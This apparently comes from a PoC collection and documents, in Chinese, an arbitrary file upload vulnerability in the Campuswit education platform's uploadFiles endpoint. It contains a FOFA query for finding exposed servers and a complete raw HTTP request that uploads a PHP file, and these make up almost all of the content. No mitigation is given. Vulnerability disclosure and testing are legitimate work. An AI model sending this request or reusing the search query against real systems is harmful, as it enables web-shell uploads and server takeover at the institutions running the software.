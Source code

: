 ## **慧学教育科技有限公司Campuswit_uploadFiles存在任意文件上传漏洞**

慧学教育科技有限公司Campuswit uploadFiles存在任意文件上传漏洞，攻击者可通过该漏洞获取服务器权限。

## fofa

```yaml
body="campuswit"
```

## poc

```yaml
POST /v1/public/uploadFiles HTTP/1.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.63 Safari/537.36
Content-Type: multipart/form-data; boundary=00content0boundary00
Host: 
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: close
Content-Length: 412

--00content0boundary00
Content-Disposition: form-data; name="keep_filename"

1
--00content0boundary00
Content-Disposition: form-data; name="check_file"

1
--00content0boundary00
Content-Disposition: form-data; name="campuswitHash"

campuswit_hash_success
--00content0boundary00
Content-Disposition: form-data; name="file"; filename="1.php"
Content-Type: text/php

1234
--00content0boundary00--
```

![image-20240711184311236](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407111843311.png)